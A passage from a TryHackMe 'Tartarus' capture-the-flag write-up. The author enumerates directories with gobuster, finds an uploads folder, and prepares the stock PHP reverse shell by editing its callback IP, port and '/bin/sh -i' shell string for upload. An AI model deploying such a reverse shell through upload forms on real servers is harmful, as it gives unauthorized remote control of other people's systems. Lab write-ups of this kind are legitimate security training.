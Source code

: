It worked and now im presented with a upload page, first thing that comes to mind is a PHP reverse shell. First I will gobuster for other directories.

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Tartarus]
└──╼ $gobuster dir -u http://tartarus/sUp3r-s3cr3t -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://tartarus/sUp3r-s3cr3t
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/26 17:12:07 Starting gobuster
===============================================================
/images (Status: 301)
===============================================================
2020/09/26 17:20:54 Finished
===============================================================
```

Inside images is a folder called uploads, this is what I needed. Now I know where my shell will be uploaded.

### Initial Access

First I copy a php reverse shell script from my webshells directory found on both ParrotOS and Kali and rename it to shell.php. 

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Tartarus]
└──╼ $cp /usr/share/webshells/php/php-reverse-shell.php .
┌─[daz@parrot]─[~/Documents/TryHackMe/Tartarus]
└──╼ $mv php-reverse-shell.php shell.php
```

Editing the script I will keep port as 1234 for now and change the IP to point to my VPN IP.

```highlight
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```
